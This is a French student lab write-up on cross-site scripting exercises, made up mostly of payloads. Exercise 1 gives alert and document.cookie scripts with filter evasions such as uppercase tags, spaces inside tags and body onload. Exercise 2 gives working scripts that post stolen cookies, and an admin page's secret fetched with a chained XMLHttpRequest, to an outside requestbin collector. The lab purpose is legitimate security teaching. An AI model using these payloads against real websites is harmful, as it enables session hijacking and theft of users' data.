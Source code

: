 # S7 : Vulnérabilité WEB -XSS

## Exercice 1 

### a) Alert Popup 

```javascript
<script>alert("I hacked you")</script>
```

### b) Document Cookies

```javascript
<script>console.log(document.cookie)</script>
```

### c) Mettre les balises en majuscule

```javascript
<SCRIPT>console.log(document.cookie)</SCRIPT>
```
```javascript
<SCRIPT>alert("I hacked you")</SCRIPT>
```
### d) utiliser des buttons avec event, en donnant du JS dans l'attribut onClick

```javascript
<SCRIPT >alert("I hacked you")</SCRIPT > // ajout d'espace dans les balises
```
```javascript
<SCRIPT >alert(document.cookie)</SCRIPT >
```

### e) utiliser des propriétés du type onLoad dans la balise body

```javascript
<body onload="alert(document.cookie)"></body>
```
```javascript
<body onload="alert('I hacked you')"></body>
```
## Exercice 2 

### a) Envoie des cookies à l'aide d'un objet XMLHttpRequest

```javascript
<script>
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);
</script>
```
```javascript
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);

```

### b)  Envoyez une balise script et s'envoyer le code qui s'execute sur la machine de l'admin
```javascript
<script>
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);
</script>
```

### c) Correct Utilisation de XMLHttpRequest + propriété onLoad
```javascript
<script>
var http1 = new XMLHttpRequest();
http1.open("GET", "https://labosecuipl.alwaysdata.net/21/s07/ex2b/profile/", true);

http1.onload = () => { // Cette requet ci c'est lancé apres http1
    var http = new XMLHttpRequest();
    http.open("POST", "https://requestbin.io/1i1r4xf1", true);
    http.send(http1.response)
}
http1.send();
</script>
```
```html
<p>
    Your secret is : 
    <span id="secret">
        BigBrother is watching you !Or is he ?
    </span>
</p>
```


